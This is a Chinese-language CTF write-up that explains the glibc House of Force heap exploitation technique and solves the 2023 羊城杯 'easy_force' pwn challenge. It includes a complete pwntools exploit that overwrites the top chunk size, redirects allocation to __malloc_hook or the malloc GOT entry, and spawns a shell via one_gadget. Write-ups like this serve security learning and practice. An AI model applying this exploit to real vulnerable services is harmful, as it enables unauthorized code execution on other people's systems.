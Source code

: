 ```yaml
---
title: House of Force
date: '2025-03-24 16:04:18'
updated: '2025-04-07 21:39:55'
---
```

## 条件
1. libc 版本： 2.27 及以前
2. free 不可控或没有

## 原理
House Of Force 是一种堆利用方法，但是并不是说 House Of Force 必须得基于堆漏洞来进行利用。

> 不用堆漏洞来利用是什么意思...
>

如果一个堆 (heap based) 漏洞想要通过 House Of Force 方法进行利用，需要以下<font style="background-color:#FBDE28;">条件</font>：

1. 能够以溢出等方式控制到 top chunk 的 size 域
2. 能够自由地控制堆分配尺寸的大小

House Of Force 产生的原因在于 glibc 对 top chunk 的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时，如果所有空闲的块都无法满足需求，那么就会从 top chunk 中分割出相应的大小作为堆块的空间。

那么，当使用 top chunk 分配堆块的 size 值是由用户控制的任意值时会发生什么？答案是，可以使得 top chunk 指向我们期望的任何位置，这就相当于一次任意地址写。然而在 glibc 中，会对用户请求的大小和 top chunk 现有的 size 进行验证

```python
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足 chunk 的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```

然而，如果可以篡改 size 为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制 top chunk size 域的漏洞。

```python
(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
```

一般的做法是把 top chunk 的 size 改为 - 1，因为在进行比较时会把 size 转换成无符号数，因此 -1 也就是说 unsigned long 中最大的数，所以无论如何都可以通过验证。

```python
remainder      = chunk_at_offset(victim, nb);
av->top        = remainder;

/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))
```

之后这里会把 top 指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意值 (write-anything-anywhere)。

与此同时，我们需要注意的是，topchunk 的 size 也会更新，其更新的方法如下

```python
victim = av->top;
size   = chunksize(victim);
remainder_size = size - nb;
set_head(remainder, remainder_size | PREV_INUSE);
```

所以，如果我们想要下次在指定位置分配大小为 x 的 chunk，我们需要确保 remainder_size 不小于 x+ MINSIZE。

## 2023 羊城杯 easy_force
![](/images/063eaf3185455c21105143c9d2d1fd9f.png)

没有 PIE，got 表部分可写

![](/images/f0e62f991ad395758a8f423d44d442a1.png)

就第一个选项是能用的，可以 malloc，但是没有 free

申请的大小还没有限制，存放在 bss 段

而 read 读取的大小固定，可以申请小 chunk 来实现堆溢出

### mmap 得到的内存
申请小的内存(利用系统调用`brk`)的地址都是在堆段，距离 libc 地址差距很大

![](/images/38a0ab45f4041f8020832730d391400b.png)![](/images/e680153e57cf98f2c53b499de94a1903.png)

而如果题目没有限制申请大小，就可以申请一个非常大的内存，10000000 数量级的字节数

这样申请的堆块是通过`mmap`系统调用得到的，地址比较靠近 libc 地址

![](/images/fac676dce831f2b87b6cd4f61e960c0a.png)



题目直接把申请的堆块的地址打印出来了，这样就可以泄露出 libc 基址和堆基址了

现在就有两条路可以走，

1. 将 topchunk 往低地址（程序）移动：通过堆基址算出 got 表的地址改函数的 got 表为 one_gadget
2. 将 topchunk 往高地址（libc 地址）移动：劫持 malloc_hook 为 one_gadget

看起来应该都可以，先试试劫持`malloc_hook`

### 劫持 malloc_hook 解法
泄露 libc 的部分：

```python
link.recvuntil(b'go away\n')
add(0,0x114514,b'a')
link.recvuntil(b'the balckbroad on ')
libc_base=int(link.recv()[:14],16)-0x4d7010
print('libc_base = '+hex(libc_base))
```

在利用堆溢出篡改 topchunk 的 size 的时候顺便泄露堆地址：

```python
add(1,0x10,p64(0x0)*3+p64(0xffffffffffffffff))
link.recvuntil(b'the balckbroad on ')
topchunk=int(link.recv()[:10],16)+0x10
print('topchunk = '+hex(topchunk))
```

在修改完 topchunk 的大小之后，再申请一个超级大的 chunk，让 topchunk 移动到`malloc_hook`的地址

```python
distance=malloc_hook-topchunk-0x20
add(2,str(distance),b'a'*8)
```

然后再申请一遍就会把`malloc_hook`申请到了

```python
add(3,0x10,p64(one_gadget))
# 然后再调用一遍malloc就getshell啦
link.recvuntil(b'go away\n')
link.sendline(b'1')
link.recvuntil(b'index?\n')
link.sendline(str(4))
link.recvuntil(b'want?\n')
link.sendline(str(0x10))
```

### 篡改 malloc got 表解法
在修改 topchunk 时传进去负数（malloc_got - topchunk - 一定的偏移）就可以了

```python
distance=elf.got['malloc']-topchunk-0x20
add(2,str(distance),b'a'*8)
```



完整 exp：

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=remote("node4.anna.nssctf.cn",28149)
# link=process("./ezforce")
elf=ELF("./ezforce")
libc=ELF("./glibc/2.23-0ubuntu11.3_amd64/libc.so.6")
ogg=[0x4527a,0xf03a4,0xf1247]

# gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu11.3_amd64/')
# pause()

def add(index,size,content):
    link.sendline(b'1')
    link.recvuntil(b'index?\n')
    link.sendline(str(index))
    link.recvuntil(b'want?\n')
    link.sendline(str(size))
    link.recvuntil(b'write?\n')
    link.sendline(content)

link.recvuntil(b'go away\n')
add(0,0x114514,b'a')
link.recvuntil(b'the balckbroad on ')
libc_base=int(link.recv()[:14],16)-0x4d7010
print('libc_base = '+hex(libc_base))
one_gadget=libc_base+ogg[2]

malloc_hook=libc_base+libc.symbols['__malloc_hook']
print('malloc_hook = '+hex(malloc_hook))

# gdb.attach(link,'set solib-search-path ~/FocusingCTF/glibc/2.23-0ubuntu11.3_amd64/')
# pause()

add(1,0x10,p64(0x0)*3+p64(0xffffffffffffffff))
link.recvuntil(b'the balckbroad on ')
topchunk=int(link.recv()[:10],16)+0x10
print('topchunk = '+hex(topchunk))

# distance=malloc_hook-topchunk-0x20
distance=elf.got['malloc']-topchunk-0x20 #跟上面那句任选一句都能打通
add(2,str(distance),b'a'*8)

add(3,0x10,p64(one_gadget))

link.recvuntil(b'go away\n')
link.sendline(b'1')
link.recvuntil(b'index?\n')
link.sendline(str(4))
link.recvuntil(b'want?\n')
link.sendline(str(0x10))

link.interactive()
```

